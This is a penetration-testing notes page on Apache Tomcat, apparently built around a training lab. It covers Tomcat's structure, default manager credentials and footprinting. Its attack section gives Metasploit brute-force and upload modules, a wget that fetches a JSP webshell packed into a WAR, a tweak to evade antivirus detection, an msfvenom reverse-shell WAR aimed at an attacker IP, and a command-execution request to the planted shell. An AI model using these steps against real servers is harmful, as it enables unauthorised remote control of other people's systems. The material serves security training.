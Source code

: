 # Tomcat

## 101

Apache Tomcat is an **open-source Java servlet container that hosts Java-based web applications**. It is primarily used internally within organizations rather than as a public-facing web server.

{% tabs %}
{% tab title="Dir Structure" %}
A typical folder structure of a Tomcat installation:

```shell
├── bin # stores scripts and bins needed to start and run Tomcat
├── conf # config files
│   ├── catalina.policy
│   ├── catalina.properties
│   ├── context.xml
│   ├── tomcat-users.xml # user creds and roles, IMPORTANT FILE!!!
│   ├── tomcat-users.xsd
│   └── web.xml
├── lib # JAR files needed for proper functioning
├── logs # temp log files
├── temp # temp log files
├── webapps # default webroot, hosts all apps
│   ├── manager
│   │   ├── images
│   │   ├── META-INF
│   │   └── WEB-INF
|   |       └── web.xml
│   └── ROOT
│       └── WEB-INF
└── work # acts as a cache during runtime
    └── Catalina
        └── localhost
```
{% endtab %}

{% tab title="tomcat-users.xml" %}
&#x20;The `tomcat-users.xml` file is used to control access to the `/manager` and `/host-manager` admin pages:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<SNIP>
<!--
  By default, no user is included in the "manager-gui" role required
  to operate the "/manager/html" web application.  If you wish to use this app,
  you must define such a user - the username and password are arbitrary.

  Built-in Tomcat manager roles:
    - manager-gui    - allows access to the HTML GUI and the status pages
    - manager-script - allows access to the HTTP API and the status pages
    - manager-jmx    - allows access to the JMX proxy and the status pages
    - manager-status - allows access to the status pages only

  The users below are wrapped in a comment and are therefore ignored. If you
  wish to configure one or more of these users for use with the manager web
  application, do not forget to remove the <!.. ..> that surrounds them. You
  will also need to set the passwords to something appropriate.
-->
 <SNIP>

!-- user manager can access only manager section -->
<role rolename="manager-gui" />
<user username="tomcat" password="tomcat" roles="manager-gui" />

<!-- user admin can access manager and admin section both -->
<role rolename="admin-gui" />
<user username="admin" password="admin" roles="manager-gui,admin-gui" />

</tomcat-users>
```
{% endtab %}

{% tab title="webapps" %}
A typical `webapps` file structure:

```shell
webapps/customapp
├── images
├── index.jsp
├── META-INF
│   └── context.xml
├── status.xsd
└── WEB-INF
    ├── jsp # stores Jakarta Server Pages (like PHP files for Apache)
    |   └── admin.jsp
    └── web.xml # deployment descriptor, MOST IMPORTANT FILE!!!
    └── lib
    |    └── jdbc_drivers.jar
    └── classes # stores compiled classes
        └── AdminServlet.class 
```
{% endtab %}

{% tab title="web.xml" %}
The `web.xml` file stores info about the routes used by the app and their classes:&#x20;

{% code overflow="wrap" %}
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>

<!DOCTYPE web-app PUBLIC "-//Sun Microsystems, Inc.//DTD Web Application 2.3//EN" "http://java.sun.com/dtd/web-app_2_3.dtd">

<web-app>
  <servlet>
    <servlet-name>AdminServlet</servlet-name>
    <servlet-class>com.inlanefreight.api.AdminServlet</servlet-class>
  </servlet>

  <servlet-mapping>
    <servlet-name>AdminServlet</servlet-name>
    <url-pattern>/admin</url-pattern>
  </servlet-mapping>
</web-app>   
```
{% endcode %}

The above configuration defines a new servlet (`AdminServlet`) that is mapped to the `com.inlanefreight.api.AdminServlet` class. Java uses the dot notation to create package names, meaning the path on disk for this class would be:&#x20;

```bash
classes/com/inlanefreight/api/AdminServlet.class
```

Next, a new servlet mapping is created to map requests to `/admin` with `AdminServlet`. This configuration will send any request received for `/admin` to the `AdminServlet.class` class.
{% endtab %}
{% endtabs %}

## Footprinting

{% tabs %}
{% tab title="Server Header" %}
Tomcat servers can often be identified by the `Server` header in HTTP responses. If a reverse proxy is in place, accessing an invalid URL may still reveal Tomcat’s version:

<figure><img src="../../.gitbook/assets/tomcat_404 (1).png" alt=""><figcaption></figcaption></figure>
{% endtab %}

{% tab title="/docs" %}
Another method to detect Tomcat and its version is by visiting the default `/docs` page, which is usually left accessible unless explicitly removed by administrators:

{% code overflow="wrap" %}
```bash
$ curl -s http://app-dev.inlanefreight.local:8080/docs/ | grep Tomcat 

<html lang="en"><head><META http-equiv="Content-Type" content="text/html; charset=UTF-8"><link href="./images/docs-stylesheet.css" rel="stylesheet" type="text/css"><title>Apache Tomcat 9 (9.0.30) - Documentation Index</title><meta name="author" 
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Attacks

### BFA

A Brute Force attack can be performed using MSF's [tomcat\_mgr\_login](https://www.rapid7.com/db/modules/auxiliary/scanner/http/tomcat_mgr_login/) module:

```bash
msf > use auxiliary/scanner/http/tomcat_mgr_login
msf auxiliary(tomcat_mgr_login) > show actions
msf auxiliary(tomcat_mgr_login) > set ACTION < action-name >
msf auxiliary(tomcat_mgr_login) > show options
msf auxiliary(tomcat_mgr_login) > run
```

### RCE

A **Web Application Archive (WAR)** file is a convenient format used to deploy Java web applications on Tomcat quickly and to store backups of those applications. Tomcat’s GUI for managing deployments is located at `/manager/html` by default and is accessible only to users assigned the `manager-gui` role. Through this interface, an attacker with access can upload a malicious WAR file to compromise the server.

![](<../../.gitbook/assets/tomcat_war_1 (1).png>)

{% tabs %}
{% tab title="Manual WAR Generation" %}
A [JSP webshell](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp) can be packaged into a WAR file by simply zipping the webshell JSP file. Once uploaded via the manager interface, the WAR file is automatically extracted and deployed by Tomcat.

{% code overflow="wrap" %}
```bash
# Download a JSP webshell
$ wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
# Archive the webshell along with the WAR file
$ zip -r backup.war cmd.jsp 

  adding: cmd.jsp (deflated 81%)
```
{% endcode %}

A more[ stealthy version](https://github.com/SecurityRiskAdvisors/cmd.jsp) of the JSP web shell can also be used in order to minimize footprint (<1KB) and possibly evade detections for standard JSP web shells. The default web shell gets detected by 2/58 AVs and a simple change drops that number down to 0.

```java
// Default line
FileOutputStream(f);stream.write(m);o="Uploaded:
// Modified line
FileOutputStream(f);stream.write(m);o="uPlOaDeD:
```
{% endtab %}

{% tab title="msfvenom" %}
`msfvenom` can be used to generate a malicious WAR file:

{% code overflow="wrap" %}
```bash
sudo msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backup.war
```
{% endcode %}
{% endtab %}

{% tab title="MSF" %}
The [tomcat\_mgr\_upload](https://www.rapid7.com/db/modules/exploit/multi/http/tomcat_mgr_upload/) MSF module can be used to automate the process:

```bash
msf > use exploit/multi/http/tomcat_mgr_upload
msf exploit(tomcat_mgr_upload) > show targets
        ...targets...
msf exploit(tomcat_mgr_upload) > set TARGET < target-id >
msf exploit(tomcat_mgr_upload) > show options
        ...show and set options...
msf exploit(tomcat_mgr_upload) > exploit
```
{% endtab %}
{% endtabs %}

Accessing the uploaded shell through its URL (e.g., `/backup/cmd.jsp`) allows remote command execution on the server.&#x20;

```shell
$ curl http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=id
```

Note that simply browsing to `/backup` redirects to `/backup/` and typically returns a 404 error, so the full path to the JSP shell must be specified.

![](<../../.gitbook/assets/tomcat_war_2 (1).png>)

{% hint style="warning" %}
**Cleanup:** return to the Tomcat Manager page and `Undeploy` the application; this removes the uploaded WAR file and its extracted contents, restoring the server’s state.
{% endhint %}
